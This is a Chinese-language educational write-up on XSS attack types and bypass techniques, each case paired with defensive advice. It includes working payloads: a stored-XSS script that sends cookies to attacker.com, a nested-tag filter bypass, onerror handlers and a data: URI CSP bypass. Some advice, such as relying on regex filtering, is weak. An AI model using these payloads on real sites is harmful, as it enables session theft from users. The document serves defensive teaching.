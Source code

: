 # XSS攻击类型与绕过技术的案例分析：实战演练文档

## 1. 概述

跨站脚本攻击（XSS）是一种常见的Web安全漏洞，攻击者通过在目标网站中注入恶意脚本，使其在用户浏览器中执行，从而窃取用户数据、劫持会话或进行其他恶意操作。本文将通过真实世界的案例分析，深入探讨XSS攻击的类型及其绕过技术，帮助安全从业者更好地理解和防御此类攻击。

## 2. XSS攻击类型

### 2.1 反射型XSS

**案例：某电商网站搜索功能漏洞**

攻击者发现某电商网站的搜索功能未对用户输入进行充分过滤，便构造了一个恶意URL：

```
https://example.com/search?q=<script>alert('XSS')</script>
```

当用户点击该链接时，恶意脚本在用户浏览器中执行，弹出一个警告框。攻击者可以利用此漏洞窃取用户的Cookie或其他敏感信息。

**绕过技术：**
- **编码绕过**：攻击者使用URL编码或Unicode编码来绕过简单的过滤机制。例如，将`<script>`编码为`%3Cscript%3E`。
- **事件处理器注入**：攻击者利用HTML事件处理器（如`onmouseover`）来执行恶意代码。例如：`<img src="x" onerror="alert('XSS')">`。

### 2.2 存储型XSS

**案例：某社交媒体平台评论功能漏洞**

攻击者在某社交媒体平台的评论框中输入恶意脚本：

```html
<script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>
```

该脚本被存储在服务器上，当其他用户查看该评论时，恶意脚本自动执行，将用户的Cookie发送到攻击者的服务器。

**绕过技术：**
- **HTML标签属性注入**：攻击者利用HTML标签的属性（如`src`、`href`）来执行恶意代码。例如：`<a href="javascript:alert('XSS')">Click me</a>`。
- **CSS注入**：攻击者通过CSS表达式或`style`属性来执行恶意代码。例如：`<div style="background-image:url('javascript:alert(\'XSS\')')"></div>`。

### 2.3 DOM型XSS

**案例：某新闻网站动态内容加载漏洞**

某新闻网站使用JavaScript动态加载用户输入的URL参数，未对输入进行充分验证。攻击者构造了以下URL：

```
https://example.com/news?article=<script>alert('XSS')</script>
```

当用户访问该URL时，恶意脚本在客户端执行，弹出一个警告框。

**绕过技术：**
- **JavaScript函数注入**：攻击者利用JavaScript函数（如`eval`、`setTimeout`）来执行恶意代码。例如：`eval('alert(\'XSS\')')`。
- **DOM操作绕过**：攻击者通过修改DOM结构来执行恶意代码。例如：`document.body.innerHTML = '<img src="x" onerror="alert(\'XSS\')">'`。

## 3. 绕过技术分析

### 3.1 输入过滤绕过

**案例：某论坛输入过滤机制漏洞**

某论坛对用户输入进行了简单的过滤，将`<script>`标签替换为空字符串。攻击者使用以下方式绕过过滤：

```html
<scr<script>ipt>alert('XSS')</script>
```

过滤机制将中间的`<script>`替换为空字符串，最终结果为`<script>alert('XSS')</script>`，成功执行恶意代码。

**防御建议：**
- 使用更严格的过滤机制，如正则表达式匹配。
- 对用户输入进行多重验证，包括长度、字符集等。

### 3.2 输出编码绕过

**案例：某博客平台输出编码漏洞**

某博客平台对用户输入进行了HTML实体编码，但未对JavaScript上下文进行编码。攻击者使用以下方式绕过编码：

```html
<img src="x" onerror="alert('XSS')">
```

由于`onerror`事件处理器在JavaScript上下文中执行，HTML实体编码对其无效，恶意代码成功执行。

**防御建议：**
- 根据输出上下文进行适当的编码，如HTML、JavaScript、CSS等。
- 使用安全的API或库来处理用户输入，避免手动编码。

### 3.3 CSP绕过

**案例：某网站内容安全策略（CSP）配置漏洞**

某网站配置了CSP，但未正确限制`script-src`。攻击者使用以下方式绕过CSP：

```html
<script src="data:text/javascript,alert('XSS')"></script>
```

由于CSP未限制`data:`协议，恶意脚本成功执行。

**防御建议：**
- 配置严格的CSP策略，限制`script-src`为可信来源。
- 避免使用`unsafe-inline`和`unsafe-eval`指令。

## 4. 总结

XSS攻击类型多样，绕过技术层出不穷。通过分析真实世界的案例，我们可以更好地理解攻击者的思路和手段。防御XSS攻击需要从输入过滤、输出编码、CSP配置等多方面入手，确保Web应用的安全性。安全从业者应不断学习和实践，提升防御能力，保护用户数据和隐私。

---

*文档生成时间: 2025-03-11 11:59:11*
